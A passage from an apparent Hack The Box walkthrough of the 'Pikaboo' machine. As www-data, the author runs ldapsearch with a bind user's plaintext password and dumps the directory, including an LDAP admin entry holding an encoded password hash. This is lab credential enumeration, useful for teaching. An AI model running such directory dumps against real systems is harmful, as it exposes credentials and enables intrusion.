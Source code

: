     # numResponses: 2
    # numEntries: 1
    

The DC is HTB. I’ll use that and dump everything under it:

    
    
    www-data@pikaboo:/var/www$ ldapsearch -h 127.0.0.1 -x -b 'dc=htb' -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'            
    # extended LDIF
    #
    # LDAPv3
    # base <dc=htb> with scope subtree
    # filter: (objectclass=*)
    # requesting: ALL
    #
    
    # htb
    dn: dc=htb
    objectClass: top
    objectClass: dcObject
    objectClass: organization
    o: htb
    dc: htb
    
    # admin, htb
    dn: cn=admin,dc=htb
    objectClass: simpleSecurityObject
    objectClass: organizationalRole
    cn: admin
    description: LDAP administrator
    userPassword:: e1NTSEF9bWxhdFNUTzJDZjZ6QjdVL2VyOVBUamtBVE5yZnJiVnE=
    
    # users, htb
    dn: ou=users,dc=htb
    objectClass: organizationalUnit
    objectClass: top
    ou: users
    